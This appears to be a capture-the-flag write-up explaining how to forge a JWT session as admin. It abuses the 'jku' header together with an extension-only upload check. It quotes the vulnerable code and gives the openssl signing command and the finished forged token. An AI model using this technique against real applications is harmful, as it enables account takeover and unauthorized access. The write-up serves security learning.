  The JWT uses `jku` verification, where the token defines the URL which the public key for signature verification is stored at. We can inspect `index.js` to see that when we log in, we will have the key store set to `http://localhost:1337/.well-known/jwks.json` - which is a common location for storing JSON web key files.  All this code does is read the public key file from the url `header.jku` and takes the public key with id `header.kid`, then verifies the signature against it. Now note the first check ensures that we cannot just point the `jku` to a server we control - we have to point it at `localhost`. 
 
 But this isn't a problem! Going back to `routes/index.js` we analyse the `/api/upload` endpoint:
 ```js
 let verificationDoc = req.files.verificationDoc;
 if (!isValidFile(verificationDoc)) return res.status(403).send(response('The file must be an image or pdf!'));
 let filename = `${verificationDoc.md5}.${verificationDoc.name.split('.').slice(-1)[0]}`;
 uploadPath = path.join(__dirname, '/../uploads', filename);
 verificationDoc.mv(uploadPath, (err) => {
 	if (err) return res.status(500).send(response('Something went wrong!'));
 });
 ...
 user.verification_doc = filename;
 ```
 and see that we can upload any image file we want and put it in the uploads directory, and although the filename is obfuscated, it is still returned to us. Thus we can upload files we control to the server, and know what the path to access them is. In the main `index.js` of the entire app, we can see that the `uploads` directory is exposed, so the images are publically accessible. Now we look at
 ```js
const isValidFile = (file) => {
 return [ 'jpg', 'png', 'svg', 'pdf' ]
 	.includes(file.name.split('.').slice(-1)[0])
}
```
and see that all is checked is file extension. Thus we can upload a JSON web key file, call it a `png`, and have it in a place which we can direct out `jku` parameter to point to. This means we can trick the web server into verifying signatures against a public key we can choose (and thus retain knowledge of the private key). We check `/.well-known/jwks.json` to get the expected format, algorithm and kid (`603c2e6b-e629-4bea-b813-e4ccf765cf2`). Now I used [mkjwk](https://mkjwk.org/) to generate a keypair in the format required, and saved the private key as `jwtRSA256-private.pem` and the public key file as `test2.png`.  Now I created a dummy user and uploaded the file, saving the obfuscated filename - in this case: `2a5f5557d89e44c1c09983a51e242ad0.png`. 

Next, I copied the session cookie from my logged-in browser session, using [jwt.io](https://jwt.io/) to view and edit the data. I set
`"jku": "http://localhost:1337/uploads/2a5f5557d89e44c1c09983a51e242ad0.png"` 
in the header to point the verification key to my malicious upload, and then edited 
`"user": "admin"`
in the payload. Next we use the following command:
```
echo -n <jwt data> | openssl dgst -sha256
 -binary -sign jwtRSA256-private.pem  | openssl enc -base64 | tr -d '\n=' | tr -- '+/' '-_'
```
to generate a signature for the jwt, and concatenate this all together to yield a jwt of
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6IjYwM2MyZTZiLWU2MjktNGJlYS1iODEzLWU0Y2NmNzY1Y2YyNSIsImprdSI6Imh0dHA6Ly9sb2NhbGhvc3Q6MTMzNy91cGxvYWRzLzJhNWY1NTU3ZDg5ZTQ0YzFjMDk5ODNhNTFlMjQyYWQwLnBuZyJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjM3NTA3ODYyfQ.gWm-Jz1fSQ8lucWVvq8arfQ36oz-joDZhJOwisTMQvzPZu7S8VEF7cAO4mseRyeJukWJUojDNES7AsqHPp8E1Ys_K5pIHhwrcpy-w2WGTK3Y1fwLmXNmdeI9Vpi5N5JBYh7ku05N06reBUemCZ7ckG9UMrJ6ZJm4xnHamD076AD6NLxJrzkbICxSukk0ajYXQgY6bQTPlZyZ7Lj3X3ycLmTUuxDhTDwwR9U45pjfBZeY26eqUdGhuzc6pRUeAlQdrVJrtdeMQilIra0RB4jtl8AzTbevXN0MJ6j1WRs3C9MVNdOMbKSmaerdZnbp-KUa5h9dD2GDdn_GiTPEV8ve2w
```
Setting our session cookie to this will have us logged in as admin.

